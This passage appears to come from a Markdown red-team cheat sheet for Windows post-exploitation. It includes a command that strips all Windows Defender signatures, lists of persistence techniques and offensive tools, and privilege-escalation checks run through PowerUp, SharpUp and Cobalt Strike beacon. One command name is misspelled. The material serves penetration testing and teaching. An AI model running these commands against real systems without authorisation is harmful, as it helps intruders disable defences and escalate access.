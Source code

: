 ```
PS> Get-MpThreat

PS> Get-MpThreatDetection
```

Remove All Signatures

```
C:\Program Files\Windows Defender\MpCmdRun.exe\ -RemoveDefinitions -All
```

#### PowerShell Constrained Language Mode Check

```
PS> $ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage
```

## Persistence

Common options:
- HKCU / HKLM Registry Autoruns - executed at user login using Run and RunOnce registry keys
- Scheduled Tasks - execute at set intervals
- Startup Folder - execute at user login
- COM hijack - execute with permission to modify entry points

### Resources
- https://github.com/cobbr/SharpSploit
- https://github.com/harleyQu1nn/AggressorScripts
- https://github.com/tyranid/oleviewdotnet
- https://www.fireeye.com/content/dam/fireeye-www/global/en/current-threats/pdfs/wp-windows-management-instrumentation.pdf
- https://github.com/Sw4mpf0x/PowerLurk
- https://github.com/0xthirteen/StayKit

## Privilege Escalation

#### Privilege Escalation Automated Checks

```
# PowerUp
PS> . .\PowerUp.ps1
PS> Invoke-Allchecks

# SharpUp
beacon> execute-assembly c:\tools\SharpUp.exe

# PrivescCheck
PS> . .\PrivescCheck.ps1
PS> Invoke-PrivescCehck

# SeatBelt
beacon> execute-assembly /tools/SeatBelt.exe -group=system
```
